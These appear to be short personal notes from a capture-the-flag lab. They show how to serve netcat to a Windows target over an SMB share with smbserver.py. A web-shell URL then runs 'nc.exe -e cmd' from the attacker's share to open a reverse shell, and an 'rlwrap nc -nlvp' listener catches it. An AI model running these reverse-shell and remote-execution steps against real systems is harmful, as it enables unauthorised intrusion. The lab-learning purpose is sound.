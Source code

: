 # Windows
### Netcat
#### Transferring netcat by SMB
https://eternallybored.org/misc/netcat/

`sudo unzip netcat-win32-1.12.zip -d netcat`

#### Creating a shared folder
`smbserver.py smbFolder $(pwd) -smv2support` *smbFolder is the shared ressource, we active the smb support, and this in syncronized with the current path*

![[Pasted image 20240324064441.png]]

Remote connection stablished, it's possible to see the shared folder
![[Pasted image 20240324071929.png]]
![[Pasted image 20240324071853.png]]
Updating the payload:
`http://10.10.10.198:8080/upload/kamehameha.php?telepathy=\\10.10.14.70\smbFolder\nc.exe -e cmd 10.10.14.70 4443`

Using `❯ rlwrap nc -nlvp 4443` we've got a more interactive console
![[Pasted image 20240324072620.png]]